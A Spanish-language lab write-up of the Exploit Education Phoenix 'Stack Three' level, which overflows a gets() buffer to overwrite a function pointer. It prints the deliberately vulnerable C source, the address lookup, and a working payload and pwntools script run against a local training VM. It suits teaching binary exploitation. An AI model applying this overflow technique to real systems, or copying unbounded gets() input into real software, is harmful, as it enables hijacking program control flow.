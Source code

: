 ```yaml
---
layout: single
title: "Stack Three"
permalink: /pwn/phoenix/stack-three/
parent: Phoenix
comments: true
excerpt: "Stack Three"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

[Exploit Education > Phoenix > Stack Three](https://exploit.education/phoenix/stack-three/){:target="_blank"}

En este nivel se introduce el concepto de **sobrescritura de punteros de función** en la pila.  
El objetivo es modificar el puntero `fp` para que apunte a la función `complete_level()`.

**Consejos:**
- Se puede usar `gdb` y `objdump` para obtener la dirección de la función `complete_level()`.
- El overflow permitirá sobreescribir el puntero de función almacenado justo después del buffer.

## Análisis del código

El programa contiene:

Un buffer de 64 bytes (locals.buffer).

Un puntero a función (locals.fp), inicializado en NULL.

La vulnerabilidad está en el uso de gets(), que permite escribir más allá de los 64 bytes, sobreescribiendo el puntero fp.
Si logramos que fp apunte a complete_level(), se ejecutará y se completará el reto.


```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>    // Biblioteca para manejo de errores y salida
#include <stdio.h>  // Biblioteca estándar para entrada y salida (printf, fflush, etc.)
#include <stdlib.h> // Biblioteca para funciones generales, como exit() y malloc()
#include <string.h> // Biblioteca para manipulación de cadenas (gets, strcpy, etc.)
#include <unistd.h> // Biblioteca para funciones del sistema POSIX (sleep, fork, etc.)

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define una constante con el mensaje que se imprimirá al inicio del programa

char *gets(char *); 
// Declaración de la función 'gets', que permite leer una línea de texto desde la entrada estándar

void complete_level() { 
  // Función para completar el nivel
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  // Muestra un mensaje de felicitación si se completa el nivel
  exit(0); // Sale del programa
}

int main(int argc, char **argv) {
  // Función principal que toma argumentos desde la línea de comandos
  struct {
    char buffer[64];        // Reserva 64 bytes para almacenar la entrada del usuario
    volatile int (*fp)();   // Puntero a función que debe ser modificado por el exploit
  } locals; // Declara la estructura que contendrá el buffer y el puntero a la función

  printf("%s\n", BANNER);
  // Imprime el banner de bienvenida

  locals.fp = NULL;
  // Inicializa el puntero a función a NULL

  gets(locals.buffer);
  // Lee la entrada del usuario con gets() y la guarda en 'buffer' (sin verificar límites, lo que permite un desbordamiento de buffer)

  if (locals.fp) {
    // Si el puntero a la función no es NULL (es decir, ha sido modificado por el atacante)
    printf("calling function pointer @ %p\n", locals.fp);
    // Imprime la dirección de la función que se va a llamar
    fflush(stdout);
    // Fuerza a que los datos pendientes se escriban en la salida estándar
    locals.fp();
    // Llama a la función apuntada por 'fp'
  } else {
    // Si el puntero a la función sigue siendo NULL (no ha sido modificado)
    printf("function pointer remains unmodified :~( better luck next time!\n");
    // Imprime un mensaje indicando que el puntero no ha sido modificado
  }

  exit(0); 
  // Termina el programa correctamente
}
```

**Encontrando la dirección de complete_level()**

Podemos ubicar la dirección con objdump con el comando `objdump -d stack-three | grep complete_level`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
000000000040069d <complete_level>:
```

O también con la herramienta gdb con el comando `info func`

```c
user@phoenix-amd64:/opt/phoenix/amd64$ gdb ./stack-three
GNU gdb (GDB) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./stack-three...(no debugging symbols found)...done.
gef➤  info func
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

**Explotación manual**

Si enviamos 64 caracteres seguidos de la dirección de complete_level(), como nos pide el reto, sobrescribiremos el puntero de función: En arquitecturas de 64 bits es mejor usar p64 para garantizar el formato correcto de la dirección.

```c
user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\x9d\x06\x40"' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ import time
   4   │ 
   5   │ # Conectar al proceso remoto
   6   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   7   │ 
   8   │ # Definir el payload
   9   │ payload = b"A" * 64
  10   │ payload += p64(0x40069d)  # Asegúrate de que la dirección esté bien
  11   │ 
  12   │ # Ejecutar el programa remoto
  13   │ process = ssh_connection.process('/opt/phoenix/amd64/stack-three')
  14   │ 
  15   │ # Enviar el payload
  16   │ process.sendline(payload)
  17   │ 
  18   │ # Esperar un poco para asegurar que todo se haya enviado
  19   │ time.sleep(1)
  20   │ 
  21   │ # captura la respuesta y la envía
  22   │ flag = process.recvall().decode()
  23   │ log.success("Output: " + flag)
  24   │ 
  25   │ # Cerrar el proceso
  26   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/3_stack-three]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 906
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-three'!
[+] Receiving all data: Done (180B)
[*] Stopped remote process 'stack-three' on localhost (pid 906)
[+] Output: Welcome to phoenix/stack-three, brought to you by https://exploit.education
    calling function pointer @ 0x40069d
    Congratulations, you've finished phoenix/stack-three :-) Well done!
```

**Conclusión**

En este reto vimos cómo es posible manipular punteros de función mediante un buffer overflow, redirigiendo la ejecución del programa hacia una función específica.

Puntos clave:

  - Las funciones inseguras como gets() permiten escribir más allá de la memoria asignada.

  - Los punteros de función en la pila son objetivos directos para un atacante.

  - Controlar el flujo del programa a través de estos punteros es una técnica básica pero poderosa en explotación binaria.